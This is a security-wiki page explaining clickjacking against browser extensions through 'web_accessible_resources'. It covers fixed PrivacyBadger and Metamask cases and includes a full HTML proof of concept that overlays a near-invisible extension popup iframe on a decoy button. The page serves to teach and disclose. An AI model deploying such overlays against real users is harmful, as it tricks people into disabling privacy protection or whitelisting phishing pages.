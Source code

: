 # BrowExt - ClickJacking

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

This page is going to abuse a ClickJacking vulnerability in a Browser extension.\
If you don't know what ClickJacking is check:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Extensions contains the file **`manifest.json`** and that JSON file has a field `web_accessible_resources`. Here's what [the Chrome docs](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) say about it:

> These resources would then be available in a webpage via the URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, which can be generated with the **`extension.getURL method`**. Allowlisted resources are served with appropriate CORS headers, so they're available via mechanisms like XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

The **`web_accessible_resources`** in a browser extension are not just accessible via the web; they also operate with the extension's inherent privileges. This means they have the capability to:

* Change the extension's state
* Load additional resources
* Interact with the browser to a certain extent

However, this feature presents a security risk. If a resource within **`web_accessible_resources`** has any significant functionality, an attacker could potentially embed this resource into an external web page. Unsuspecting users visiting this page might inadvertently activate this embedded resource. Such activation could lead to unintended consequences, depending on the permissions and capabilities of the extension's resources.

## PrivacyBadger Example

In the extension PrivacyBadger, a vulnerability was identified related to the `skin/` directory being declared as `web_accessible_resources` in the following manner (Check the original [blog post](https://blog.lizzie.io/clickjacking-privacy-badger.html)):

```json
"web_accessible_resources": [
  "skin/*",
  "icons/*"
]
```

This configuration led to a potential security issue. Specifically, the `skin/popup.html` file, which is rendered upon interaction with the PrivacyBadger icon in the browser, could be embedded within an `iframe`. This embedding could be exploited to deceive users into inadvertently clicking on "Disable PrivacyBadger for this Website". Such an action would compromise the user's privacy by disabling the PrivacyBadger protection and potentially subjecting the user to increased tracking. A visual demonstration of this exploit can be viewed in a ClickJacking video example provided at [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

To address this vulnerability, a straightforward solution was implemented: the removal of `/skin/*` from the list of `web_accessible_resources`. This change effectively mitigated the risk by ensuring that the content of the `skin/` directory could not be accessed or manipulated through web-accessible resources.

The fix was easy: **remove `/skin/*` from the `web_accessible_resources`**.

### PoC

```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
    width: 430px;
    height: 300px;
    opacity: 0.01;
    float: top;
    position: absolute;
}

#stuff {
    float: top;
    position: absolute;
}

button {
    float: top;
    position: absolute;
    top: 168px;
    left: 100px;
}

</style>

<div id="stuff">
    <h1>
    Click the button
    </h1>
    <button id="button">
      click me
    </button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```

## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In this case, Metamask fixed the vulnerability by checking that the protocol used to access it was **`https:`** or **`http:`** (not **`chrome:`** for example):

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

**Another ClickJacking fixed** in the Metamask extension was that users were able to **Click to whitelist** when a page was suspicious of being phishing because of `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. As that page was vulnerable to Clickjacking, an attacker could abuse it showing something normal to make the victim click to whitelist it without noticing, and then going back to the phishing page which will be whitelisted.

## Steam Inventory Helper Example

Check the following page to check how a **XSS** in a browser extension was chained with a **ClickJacking** vulnerability:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
